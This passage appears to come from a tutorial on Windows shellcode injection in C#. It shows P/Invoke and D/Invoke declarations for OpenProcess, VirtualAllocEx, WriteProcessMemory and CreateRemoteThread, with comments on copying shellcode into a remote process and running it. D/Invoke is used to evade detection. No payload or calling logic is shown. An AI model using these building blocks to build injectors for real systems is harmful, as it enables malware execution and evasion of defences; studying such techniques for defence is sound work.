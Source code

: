 ```c#
        //CreateRemoteThread to execute the shellcode in memory
        [DllImport("kernel32.dll")]
        public static extern IntPtr CreateRemoteThread(
            IntPtr hProcess,
            IntPtr lpThreadAttributes,
            uint dwStackSize,
            IntPtr lpStartAddress,
            IntPtr lpParamerter,
            uint dwCreationFlags,
            IntPtr lpThreadId);
```

Let's call our APIs using D/Invoke:

```c#
        //OpenProcess API to get handle on the target process
        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate IntPtr OpenProcess(
            uint processAccess,
            bool bInheritHandle,
            int processId);

        //VirtualAllocEx to allocate memory in the remote process
        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate IntPtr VirtualAllocEx(
            IntPtr hProcess,
            IntPtr lpAddress,
            uint dwSize,
            uint flAllocationType,
            uint flProtect);

        //WriteProcessMemory to copy shellcode into memory
        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate bool WriteProcessMemory(
            IntPtr hProcess,
            IntPtr lpBaseAddress,
            byte[] lpBuffer,
            Int32 nSize,
            out IntPtr lpNumberofBytesWritten);

        //CreateRemoteThread to execute the shellcode in memory
        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate IntPtr CreateRemoteThread(
            IntPtr hProcess,
            IntPtr lpThreadAttributes,
            uint dwStackSize,
            IntPtr lpStartAddress,
            IntPtr lpParamerter,
            uint dwCreationFlags,
            IntPtr lpThreadId);
```
